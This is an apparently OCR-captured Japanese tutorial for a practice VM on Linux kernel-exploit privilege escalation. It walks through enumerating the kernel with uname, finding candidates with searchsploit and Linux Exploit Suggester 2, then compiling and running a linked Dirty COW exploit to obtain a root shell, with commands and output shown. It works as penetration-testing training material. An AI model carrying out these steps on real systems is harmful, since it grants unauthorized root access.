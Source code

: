 カーネルエクスプロイトの発見  
カーネルエクスプロイトの発見と使用は、通常、簡単なプロセスです。   
1. カーネルバージョンを列挙する (uname -a).   
2. 一致するエクスプロイトを見つける（Google、ExploitDB、GitHub）。   
3. コンパイルして実行する。  

ただし、カーネルエクスプロイトは不安定な場合が多いので、注意が必要です。   
システムクラッシュを引き起こす可能性があります。
# Privilege Escalation
1. カーネルバージョンを列挙する。
```
$ uname -a
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
```
2. searchsploitを使用して、一致するエクスプロイトを検索します。
```
# searchsploit linux kernel 2.6.32 priv esc
```
なお、いずれの悪用もLinuxのディストリビューション（Debian）とは一致しません。   
3. カーネルのバージョンはあまり特定せず、ディストリビューションをより特定するように検索を調整することができます。   
```
# searchsploit linux kernel 2.6 priv esc debian
```
今回も、様々な理由で使えないエクスプロイトがいくつか出てきます。   
4. Linux Exploit Suggester 2 (https://github.com/jondonas/linux-exploitsuggester- 2)をインストールし、オリジナルのカーネルバージョンに対してツールを実行します。   
```
# ./linux-exploit-suggester-2.pl –k 2.6.32
```
これにより、一般的なカーネルエクスプロイト（Dirty COW）が明らかになりました。   
5. Dirty COWエクスプロイトには、rootシェルを取得するために異なる方法を使用するものが多数存在します。以下のバージョンは、練習用VM上で最もよく機能するようです。   
 https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54   
 6. ダウンロードし、ファイルに記載されている手順でコンパイルしてください。
```
$ gcc -pthread c0w.c -o c0w
```
7. エクスプロイトを実行する。
```
$ ./c0w
```
8. 悪用が完了したら、/usr/bin/passwd バイナリを実行するだけで、root シェルを取得することができます。
```
$ /usr/bin/passwd
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root) ...
```
